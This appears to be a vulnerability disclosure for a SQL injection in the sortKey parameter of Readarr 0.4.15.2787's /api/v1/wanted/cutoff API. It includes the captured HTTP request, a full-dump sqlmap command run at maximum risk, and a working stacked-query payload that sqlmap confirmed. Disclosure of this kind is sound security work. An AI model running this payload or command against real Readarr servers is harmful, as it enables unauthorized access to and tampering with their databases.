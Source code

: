 Description
A SQL Injection vulnerability exists in the sortKey parameter of the GET /api/v1/wanted/cutoff API endpoint. The endpoint fails to properly sanitize user-supplied input, allowing attackers to inject and execute arbitrary SQL commands against the backend SQLite database.

Sqlmap confirmed exploitation via stacked queries, demonstrating that the parameter can be abused to run arbitrary SQL statements. A heavy query was executed using SQLite’s RANDOMBLOB() and HEX() functions to simulate a time-based payload, indicating deep control over database interactions.




![](https://github.com/4rdr/proofs/blob/main/gifs/readarr-0.4.15.2787-sql-injection-via-sortkey-parameter.gif?raw=true)






```
GET /api/v1/wanted/cutoff?page=1&pageSize=20&sortDirection=descending&sortKey=releaseDate&monitored=true HTTP/1.1
Host: 172.18.0.2:8787
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Api-Key: eb35ba8a3cfa4b1dbf21f0e2a1f95148
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://172.18.0.2:8787/wanted/cutoffunmet
Priority: u=0
```

Version
```0.4.15.2787```

Command
```
sqlmap.py -r ./reader --level 5 --risk 3 --dbms sqlite -a
```

sqlmap results
```
---
Parameter: sortKey (GET)
    Type: stacked queries
    Title: SQLite > 2.0 stacked queries (heavy query)
    Payload: page=1&pageSize=20&sortDirection=descending&sortKey=releaseDate";SELECT LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- gFIj&monitored=true
---
```
